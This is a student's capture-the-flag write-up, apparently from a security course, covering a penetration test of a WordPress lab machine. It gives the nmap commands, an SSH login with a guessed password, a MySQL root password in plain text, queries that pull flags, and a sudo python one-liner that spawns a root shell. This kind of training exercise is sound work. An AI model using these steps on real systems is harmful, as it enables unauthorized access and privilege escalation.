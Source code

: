 # Final-Project
![](Images/Final%20Project%203.0.drawio.png)

# Red Team: Summary of Operations
# Table of Contents
 - Exposed Services
 - Critical Vulnerabilities
 - Exploitation
# Exposed Services
- Fill out the information below:
  - Nmap scan results for each machine reveal the below services and OS details: nmap -sV 192.168.1.110  command to Scan Target 1
  
 ![](Images/Nmap%20Scan.png)
 
- This scan identifies the services below as potential points of entry:
### Target 1:
  - SSH
  - HTTP
  - rpcbind
  - netbios-ssn
  
  ![](Images/Nmap%20Port%20%26%20Services.png)



- The following vulnerabilities were identified on each target:
### Target 1:


| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |

![](Images/WPScan.png)


# Exploitation

- Fill out the details below. Include screenshots where possible:
- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
### Target 1:

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/
  - grep -RE flag



                                      flag1: {b9bbcb33e11b80be759c4e844862482d}
 
 
![](Images/Flag%201%20%26%202.png) 

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/html/wordpress
  - mysql -u root -p
  - R@v3enSecurity
  - SELECT * FROM wp_post
 
                                      flag2: {fc3fd58dcdad9ab23faca6e9a36e581c}


![](Images/Flag%201%20%26%202.png)

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - mysql -u root -p
  - R@v3enSecurity
  - use wordpress;
  - SELECT * FROM wp_posts;

                                          

                                      flag3: {afc01ab56b50591e7dccf93122770cd2} 


 ![](Images/Flag%203.png)
 
 - Exploit Use:
   - Privilege escalation
   - ssh steven@192.168.1.110
   - sudo python -c ‘import os;os.system(“/bin/sh”)’ 
   - cd ../..
   - cat flag4                  
 

                                       flag4: {715dea6c055b9fe3337544932f2941ce}
 
 
![](Images/Flag%204.png)
                                      
                   
